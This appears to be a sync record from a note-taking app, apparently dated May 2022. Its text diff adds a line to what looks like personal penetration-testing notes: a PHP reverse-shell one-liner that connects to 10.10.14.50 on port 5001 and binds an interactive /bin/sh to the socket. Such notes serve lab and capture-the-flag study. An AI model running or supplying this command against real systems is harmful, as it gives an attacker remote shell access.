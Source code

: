 id: e75b56e9c8ad446fad9271787303a177
parent_id: 0a22a0449e164e57a43eb1722dd49712
item_type: 1
item_id: 04f60329fa59421bbda0919c530ec989
item_updated_time: 1652806908548
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"3\\\");?>\\\n\\\n\"],[1,\"> \\\\# In a cmd shell code\\\n> \\\n> php -r '$sock=fsockopen(\\\"10.10.14.50\\\",5001); exec(\\\"/bin/sh -i &lt;&3 &gt;&3 2>&3\\\");'\\\n\\\n\"],[0,\"## Windo\"]],\"start1\":235,\"start2\":235,\"length1\":16,\"length2\":132}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-17T17:05:10.386Z
created_time: 2022-05-17T17:05:10.386Z
type_: 13